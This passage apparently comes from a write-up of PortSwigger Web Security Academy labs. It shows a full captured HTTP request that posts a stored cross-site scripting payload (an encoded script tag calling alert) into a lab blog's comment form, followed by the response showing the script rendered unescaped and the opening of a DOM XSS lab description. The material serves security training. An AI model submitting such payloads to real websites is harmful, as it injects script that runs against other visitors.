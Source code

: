 ```

POST /post/comment HTTP/1.1
Host: 0a9900f6042ec02cc105d020007f00e5.web-security-academy.net
Cookie: session=OxXDegoxz9yhuzrLL3VJxpr2XoHZlO2z
Content-Length: 161
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a9900f6042ec02cc105d020007f00e5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9900f6042ec02cc105d020007f00e5.web-security-academy.net/post?postId=6
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

csrf=shcyS1qQiYDaG0DQTi00mR2ih7acLuEd&postId=6&comment=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&name=test&email=test%40test.com&website=https%3A%2F%2Fwww.test.com

```

and the following response shows the successful attack:

```
...
<section class="comment">
<p>
<img src="/resources/images/avatarDefault.svg" class="avatar">                            <a id="author" href="https://www.test.com">test</a> | 18 December 2022
</p>
<p><script>alert(1)</script></p>
<p></p>
</section>
...
```

## Lab: DOM XSS in document.write sink using source location.search

This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.
